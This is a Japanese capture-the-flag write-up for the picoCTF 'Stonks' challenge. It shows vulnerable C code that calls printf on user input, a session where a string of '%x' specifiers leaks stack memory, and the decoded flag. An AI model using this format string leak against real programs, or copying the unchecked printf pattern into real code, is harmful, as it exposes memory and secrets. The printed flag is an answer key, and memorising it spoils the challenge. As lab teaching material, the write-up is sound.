 # Stonks:Binary Exploitation

I decided to try something noone else has before. I made a bot to automatically trade stonks for me using AI and machine learning. I wouldn't believe you if you told me it's unsecure! [vuln.c]() `nc mercury.picoctf.net 33411`

# Solution

とりあえずプロンプトに`nc mercury.picoctf.net 33411`をなげてみる。
```
$ nc mercury.picoctf.net 33411
Welcome back to the trading app!

What would you like to do?
1) Buy some stonks!
2) View my portfolio
1
Using patented AI algorithms to buy stonks
Stonks chosen
What is your API token?
1
Buying stonks with token:
1
Portfolio as of Fri Apr 26 02:07:58 UTC 2024


1 shares of VP
2 shares of YCWC
14 shares of VJMP
5 shares of NZIO
44 shares of SFO
87 shares of YR
154 shares of ZRZ
796 shares of CIJD
5 shares of EXT
Goodbye!
```
株を買うor状態を見ることができるらしい。添付のプログラムを見てみると、
flagはapi_bufに格納されているっぽい。それから以下の部分で何かしらできそう。
```
	// TODO: Figure out how to read token from file, for now just ask

	char *user_buf = malloc(300 + 1);
	printf("What is your API token?\n");
	scanf("%300s", user_buf);
	printf("Buying stonks with token:\n");
	printf(user_buf);

	// TODO: Actually use key to interact with API
 ```
 user_bufを表示してくれるみたいなので、とりあえずAPI tokenを聞かれるところで`%x`を入力してみる。と、なんか出てきた。
 ```
 Welcome back to the trading app!

What would you like to do?
1) Buy some stonks!
2) View my portfolio
1
Using patented AI algorithms to buy stonks
Stonks chosen
What is your API token?
%x
Buying stonks with token:
9e4d3f0
Portfolio as of Fri Apr 26 02:13:52 UTC 2024


1 shares of SSY
10 shares of QTK
2 shares of VMZ
90 shares of V
360 shares of H
141 shares of JM
38 shares of THL
1180 shares of WCF
Goodbye!
```
`%x`をたくさん並べてみればflagが見られるかも。
```
Welcome back to the trading app!

What would you like to do?
1) Buy some stonks!
2) View my portfolio
1
Using patented AI algorithms to buy stonks
Stonks chosen
What is your API token?
%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x%x
Buying stonks with token:
95843b0804b00080489c3f7f17d80ffffffff19582160f7f25110f7f17dc7095831801958439095843b06f6369707b465443306c5f49345f74356d5f6c6c306d5f795f79336e6334326136613431ffe5007df7f52af8f7f254401ec2430010f7db4ce9
Portfolio as of Fri Apr 26 01:54:28 UTC 2024


1 shares of LV
1 shares of WD
27 shares of E
188 shares of OXJ
70 shares of AC
1189 shares of QYXJ
Goodbye
```
出てきた怪しげな謎文字列をhex→UTF-8にすると、
![image.png](https://github.com/colza12/ctf_writeup/blob/main/picoCTF%202021/Stonks/image/capture.png)
4文字ずつ逆になっているflag(リトルエンディアンで記述されている)が出てきたので、並べ替える。

`picoCTF{I_l05t_4ll_my_m0n3y_a24c14a6}`

ちなみに、Format String Attack(書式文字列攻撃)という、printf()などの関数の引数の特性を利用した攻撃方法らしい。
